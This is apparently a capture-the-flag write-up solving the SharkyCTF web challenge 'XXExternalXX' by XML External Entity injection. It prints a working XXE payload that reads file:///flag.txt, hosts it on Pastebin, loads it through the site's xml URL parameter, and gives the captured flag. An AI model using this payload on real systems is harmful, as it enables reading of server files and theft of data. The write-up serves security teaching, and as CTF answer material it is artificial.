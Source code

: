 <p align="center">
  <img src="../sharky_ctf_logo.png">
</p>

# XXExternalXX

![team](https://img.shields.io/static/v1?label=Team&message=Hack%27togone&color=E22244&style=for-the-badge)
![CTF](https://img.shields.io/static/v1?label=CTF%20name&message=SharkyCTF&color=blue&style=for-the-badge)
![CTF category](https://img.shields.io/static/v1?label=Catégorie&message=Web&color=orange&style=for-the-badge)

## Statement

<p align="center">
  <img src="./files/XXexternal_statement.png" width="500">
</p>

## Introduction 

This challenge is about an Xml External Entity (xxe).

## Challenge resolution

We start by opening the website, the index shows `Welcome to this website. To check all the news we uploaded, please go to the "news" section`.

We can also see a menu with 2 buttons `Home` and `Show Stored data`. I suppose that the second one is the one i'm interested in.

By clicking on it, i arrive on the following page : 

<p align="center">
  <img src="./files/XXexternal_website.png" width="500">
</p>

at the URl : `http://xxexternalxx.sharkyctf.xyz/?xml=data.xml`

As the challenge's name being XXExternalXX, i know that i'll have to make a xxe injection.

The goal is to inject the xxe via an external link in the url. I then created a [Pastebin](https://pastebin.com/5c3Daj3j) with this content :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<note>
<data>&xxe;</data>
</note>
```

and include it `http://xxexternalxx.sharkyctf.xyz/?xml=https://pastebin.com/raw/5c3Daj3j` to get the flag !

It was a basic XXE injection, the only "difficult" point was to find the `<data>` tag. Otherwise, nothing is displayed.

## Flag 

```
shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a} 
```

Flagged by [Ch4llengR](https://twitter.com/Ch4llengR)

## Resources 

* [OWASP - XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
* [XXE payload list](https://github.com/payloadbox/xxe-injection-payload-list)


![Hack'togone emblem](../hack_togone.svg)